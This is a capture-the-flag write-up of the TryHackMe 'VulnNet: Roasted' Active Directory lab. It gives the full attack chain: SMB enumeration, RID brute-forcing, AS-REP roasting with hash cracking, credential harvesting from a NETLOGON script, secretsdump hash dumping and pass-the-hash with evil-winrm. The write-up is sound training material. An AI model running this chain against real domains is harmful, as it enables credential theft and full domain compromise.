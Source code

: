 # VulnNet: Roasted

Link to room: https://tryhackme.com/room/vulnnetroasted

### This is a Windows activie directory machine

Let's start with an nmap scan:

```python
# Nmap 7.91 scan initiated Sun May 16 16:34:12 2021 as: nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
Nmap scan report for vulnet.thm (10.10.123.68)
Host is up (0.23s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-16 21:04:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-16T21:05:40
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 17:06:24 2021 -- 1 IP address (1 host up) scanned in 1932.04 seconds
```

Based on some of the opened ports like 53(DNS) and 88(kerberos), we can predict this is a windows active directory machine

## SMB Enum

we can enumerate shares anonymously providing a null password using smbmap
```python
╭── /opt/share/tryhackme/vulnet  master ✘✘✘ ✭  
╰────▶ smbmap -H vulnet.thm -u guest -p ''
[+] IP: vulnet.thm:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

There are read-only access to three shares (IPC$, VulnNet-Business-Anonymous, and VulnNet-Enterprise-Anonymous)
The IPC$ share hints us of the possibility to do anonymous user enumeration. We will come to that later. Let's access the last two shares and see what contents they have

```python
╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘
╰────▶ smbclient //vulnet.thm/VulnNet-Business-Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021


╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘ ✭  
╰────▶ smbclient //vulnet.thm/VulnNet-Enterprise-Anonymous                           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
  Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
  Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021
```
##
Let's download all the contents onto our local machine
```
smb: \> mget *
```
##
We get potential usernames and other info from the downloaded files from smb. so let's build our username list. Spoiler alert!!, the usernames in the files were generic and didn't match with those create on the machine

Time to find a way to enumerate usernames on the box. i will be using rid-brute from crackmapexec
```python
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser
```
Since this is anonymous login, you can replace username robot with whatever you like. I used robot because i amm one -:)

![image](https://user-images.githubusercontent.com/68066436/118685539-3038aa80-b7d1-11eb-91e9-572fcd48794a.png)

##
Extract the usernames with rid greater than 1000 into a username file. I named mine users.txt with below content

```
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
##
kerberoasting with the username file returns a hash for t-skid

```python
python3 GetNPUsers.py -dc-ip 10.10.176.144 -usersfile users.txt vulnnet-rst.local/
```
![image](https://user-images.githubusercontent.com/68066436/118688670-41cf8180-b7d4-11eb-9917-96222176f67f.png)

Put whole hash (from $krb to end of hash) in a file and crack with john-the-ripper
```python
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt kerberoasting-hash
```
![image](https://user-images.githubusercontent.com/68066436/118689287-d1753000-b7d4-11eb-8b7f-869cfe676122.png)

Creds for t-skid
```
user: t-skid
pass: <redacted>
```

Try to access smb again with new creds to see if we get more access to some shares
```python
smbmap -H vulnet.thm -u t-skid -p '<redacted>'
```
![image](https://user-images.githubusercontent.com/68066436/118689875-77c13580-b7d5-11eb-88a7-c99bc26d771f.png)
Notice t-skid has read access to NETLOGON and SYSVOL shares which we did have with the anonymous logins

Let's access NETLOGON share with smbclient and see what we've got in there
```python
smbclient //vulnet.thm/NETLOGON -U t-skid
```
![image](https://user-images.githubusercontent.com/68066436/118690902-82c89580-b7d6-11eb-95f2-9fb1715a6c6b.png)

We get a new username and password after downloading and reading the content of ResetPassword.vbs
![image](https://user-images.githubusercontent.com/68066436/118691117-bf948c80-b7d6-11eb-9360-202d1f66c064.png)

Creds for a-whitehat
```
user: a-whitehat
pass: <redacted>
```

Pass a-whitehat's creds into evil-winrm to get the initial foothold into the machine
```python
evil-winrm -i vulnet.thm -u a-whitehat -p <redacted>
```
![image](https://user-images.githubusercontent.com/68066436/118693125-c45a4000-b7d8-11eb-9b0b-cf9abceba4aa.png)


## Privilege Escalation

Checked groups and realised user a-whitehat belongs to domain admins group, this will enable us dump hashes from SAM database using secretsdump.py from impacket

![image](https://user-images.githubusercontent.com/68066436/118693532-21ee8c80-b7d9-11eb-9b2d-195be8421d32.png)

Let's dump the hashes with secretsdump
```python
python3 secretsdump.py -just-dc a-whitehat:<redacted password>@vulnnet-rst.local
```
![image](https://user-images.githubusercontent.com/68066436/118694206-d2f52700-b7d9-11eb-9b00-698568e0e87f.png)

What do we do now that we have the administrator's hashes? Erhmmm, let's pass-the-hash using evil-winrm
```python
evil-winrm -i vulnet.thm -u administrator -H <redacted NTLM hash of administrator>
```
![image](https://user-images.githubusercontent.com/68066436/118695296-084e4480-b7db-11eb-8194-300f527f336b.png)

We have successfully escalated our privilege to administrator!!!!!


## Flags
Time to grab the flags

### User Flag:
Navigate to C:\users\enterprise-core-vn\Desktop\user.txt
![image](https://user-images.githubusercontent.com/68066436/118696979-d63de200-b7dc-11eb-8d86-a6da70a933aa.png)

### System Flag:
Navigate to C:\Users\Administrator\Desktop\system.txt
![image](https://user-images.githubusercontent.com/68066436/118696998-db029600-b7dc-11eb-8f7d-e0673173e282.png)



##
This is the end of my write-up, hope you enjoyed reading....



